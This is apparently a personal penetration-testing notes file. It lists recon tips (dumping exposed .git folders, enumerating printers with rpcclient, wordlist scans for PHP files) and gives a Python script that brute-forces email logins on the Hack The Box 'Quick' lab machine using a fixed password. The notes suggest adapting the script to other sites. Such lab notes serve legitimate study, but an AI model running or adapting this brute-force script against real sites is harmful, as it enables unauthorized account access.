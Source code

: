 # Assumptions
Things that aren't self explanatory if not encountered before


# Stuff to check for
- /dev 
    - If this DIR is found, assume that there is code in there.    
    Hence use `git-dumper` tool in .git 
- Printers
    - If a windows AD server has a printer, use `rpcclient` and do `enumprinters`
- HTTPS / HTTP sites 
    - If a site has a protocol one shall try to access the site with the other one.
- PHP files
    - If one or more file is found during recon, assume that there are more php files on the site and scan for them.    
    (Use a wordlist such as [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/Common-PHP-Filenames.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/Common-PHP-Filenames.txt))
- If there's a list of people or names with email addresses and see a list of countries listed    
assume that different people might have different email formats (see help and longer explanation below)

## Emails
For example:
```py
EMAIL_FORMATS   = {"UK":".co.uk","US":".com","DE":".de","IT":".it","CN":".cn","FR":".fr"}
```
The following script was written for [Quick](https://app.hackthebox.com/machines/244) HTTB machine.    
```py
# !/usr/bin/python3

import requests

# Constants
URL             = "http://quick.htb:9001/login.php"
EMAIL_FORMATS   = {"UK":".co.uk","US":".com","DE":".de","IT":".it","CN":".cn","FR":".fr"}

# Variables
data = {"email":"","password":"Quick4cc3$$"}
clients = {"qconsulting":"UK","darkwing":"US","wink":"UK","lazycoop":"CN","scoobydoo":"IT","penguincrop":"FR"}
users = ["tim","roy","elisa","james"]


# Return the needed email format
def make_email(user,org_name,country):
    return f"{user}@{org_name}{EMAIL_FORMATS[country]}"

# Brute force the login page
def brute():
    for u in users:
        for cl,cnt in clients.items():
            data["email"] = make_email(u,cl,cnt)
            req = requests.post(url=URL,data=data)
            if "Invalid Credentials" in req.text:
                print(f"[-]\t{data['email']}")
            else:
                print("\nEMAIL FOUND !!\n")
                print(f"[!]\t{data['email']}")
                exit()
# Driver code
if __name__ == "__main__":
    brute()
```
This script can be altered for different sites.